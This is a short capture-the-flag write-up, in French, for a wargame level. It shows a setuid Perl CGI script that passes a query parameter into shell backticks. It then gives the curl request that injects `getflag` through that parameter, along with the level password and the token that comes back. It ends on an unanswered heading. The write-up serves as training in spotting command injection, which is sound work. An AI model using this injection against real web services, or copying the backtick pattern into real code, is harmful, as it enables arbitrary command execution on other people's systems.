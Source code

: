 
**LOGIN: level04**

**PASSWORD: qi0maab88jeaj46qoumi7maus**

 ----

```
ls -l ; echo ; file level04.pl 
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```

le script perl : 
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

On a un exploit sur un subshell invoqué avec une variable ouverte à l'utilisateur 

```
curl 'http://192.168.0.15:4747/?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

**TOKEN: ne2searoevaevoem4ov4ar8ap**



---

### POURQUOI ?x=;getflag NE FONCTIONNE PAS?
